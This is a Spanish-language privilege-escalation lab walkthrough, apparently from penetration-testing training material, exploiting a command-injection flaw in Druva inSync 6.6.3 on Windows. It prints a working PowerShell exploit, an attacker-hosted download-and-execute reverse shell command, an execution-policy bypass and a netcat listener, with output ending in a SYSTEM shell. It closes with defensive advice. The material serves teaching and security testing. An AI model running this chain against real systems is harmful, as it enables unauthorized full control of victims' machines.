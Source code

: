 Podríamos ser capaces de escalar privilegios en sistemas bien parcheados y bien configurados si se permite a los usuarios instalar software o si se utilizan aplicaciones/servicios de terceros vulnerables en toda la organización. Es común encontrar una multitud de diferentes aplicaciones y servicios en las workstations (estaciones de trabajo) con Windows durante nuestras evaluaciones. Veamos un ejemplo de un servicio vulnerable que podríamos encontrar en un entorno real. Algunos servicios/aplicaciones pueden permitirnos escalar a SYSTEM. En contraste, otros podrían causar una condición de denial-of-service (denegación de servicio) o permitir el acceso a datos sensibles como archivos de configuración que contienen contraseñas.

---

### Enumerating Installed Programs

Como se mencionó anteriormente, comencemos enumerando las aplicaciones instaladas para tener una idea del entorno.

```
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

El resultado parece ser mayormente estándar para una workstation con Windows 10. Sin embargo, la aplicación `Druva inSync` se destaca. Una búsqueda rápida en Google muestra que la versión `6.6.3` es vulnerable a un ataque de command injection (inyección de comandos) a través de un servicio RPC expuesto. Podemos usar [este](https://www.exploit-db.com/exploits/49211) exploit PoC para escalar nuestros privilegios. Desde este [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) que detalla el descubrimiento inicial de la falla, podemos ver que Druva inSync es una aplicación utilizada para “Integrated backup, eDiscovery, and compliance monitoring,” y la aplicación cliente ejecuta un servicio en el contexto de la poderosa cuenta `NT AUTHORITY\SYSTEM`. La escalación es posible al interactuar con un servicio que se ejecuta localmente en el puerto 6064.

### Enumerating Local Ports

Hagamos una mayor enumeración para confirmar que el servicio se está ejecutando como se espera. Una mirada rápida con `netstat` muestra un servicio ejecutándose localmente en el puerto `6064`.

```r
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

### Enumerating Process ID

A continuación, mapeemos el process ID (PID) `3324` al proceso en ejecución.

```r
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

### Enumerating Running Service

En este punto, tenemos suficiente información para determinar que la aplicación Druva inSync está instalada y en ejecución, pero podemos hacer una última verificación usando el cmdlet `Get-Service`.

```r
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

---

## Druva inSync Windows Client Local Privilege Escalation Example

### Druva inSync PowerShell PoC

Con esta información en mano, probemos el exploit PoC, que es este fragmento corto de PowerShell.

```r
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

### Modifying PowerShell PoC

Para nuestros propósitos, queremos modificar la variable `$cmd` a nuestro comando deseado. Podemos hacer muchas cosas aquí, como agregar un usuario local admin (que es un poco ruidoso, y queremos evitar modificar cosas en los sistemas cliente siempre que sea posible) o enviarnos una reverse shell. Probemos esto con [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Descarga el script a nuestra máquina de ataque y renómbralo a algo simple como `shell.ps1`. Abre el archivo y agrega lo siguiente al final del archivo del script (cambiando la IP para que coincida con nuestra dirección y el puerto de escucha también):

```r
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modifica la variable `$cmd` en el script del exploit PoC de Druva inSync para descargar nuestra reverse shell de PowerShell en memoria.

```r
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

### Starting a Python Web Server

A continuación, inicia un servidor web en Python en el mismo directorio donde reside nuestro script `script.ps1`.

```r
python3 -m http.server 8080
```

### Catching a SYSTEM Shell

Finalmente, inicia un listener de `Netcat` en la máquina de ataque y ejecuta el script PoC de PowerShell en el host objetivo (después de [modificar la política de ejecución de PowerShell](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy) con un comando como `Set-ExecutionPolicy Bypass -Scope Process`). Obtendremos una conexión de reverse shell con privilegios de `SYSTEM` si todo sale según lo planeado.

```r
nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```

---

## Moving On

Este ejemplo muestra cuán arriesgado puede ser permitir a los usuarios instalar software en sus máquinas y cómo siempre debemos enumerar el software instalado si llegamos a un servidor o host de escritorio con Windows. Las organizaciones deberían restringir los derechos de administrador local en las máquinas de los usuarios finales siguiendo el principio de privilegio mínimo. Además, una herramienta de whitelisting de aplicaciones puede ayudar a asegurar que solo el software debidamente evaluado sea instalado en las workstations de los usuarios.